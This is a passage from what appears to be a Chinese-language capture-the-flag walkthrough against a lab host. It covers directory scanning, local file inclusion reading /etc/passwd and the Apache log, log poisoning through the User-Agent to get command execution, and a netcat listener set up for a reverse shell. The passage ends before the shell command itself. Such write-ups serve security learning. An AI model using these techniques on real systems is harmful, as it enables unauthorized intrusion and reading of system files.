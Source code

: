 ```
http://10.0.0.115/planet/My_H1dd3n_S3cr3t/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

访问后又是空的，再次做个目录扫描

```
gobuster dir -w ../../Dict/SecLists-2022.1/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://10.0.0.115/planet/My_H1dd3n_S3cr3t/ -x php,txt,html,zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

又是文件读取，来看看

```
http://10.0.0.115/planet/My_H1dd3n_S3cr3t/file.php?file=/etc/passwd
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

看来这回不加扩展名了，找到一个用户giuseppe,试试还能读到什么文件

```
http://10.0.0.115/planet/My_H1dd3n_S3cr3t/file.php?file=/var/log/apache2/access.log
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以读到日志，这里可以通过user-agnet插入一句话来毒化日志，再利用文件包含漏洞来读取日志达到执行命令

1。User-Agent插入一句话木马

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

2。验证payload

```
http://10.0.0.116/planet/My_H1dd3n_S3cr3t/file.php?file=/var/log/apache2/access.log&haha=id
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

验证成功，现在来反弹shell到攻击机上

1。攻击机监听4444端口

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。执行反弹shell命令
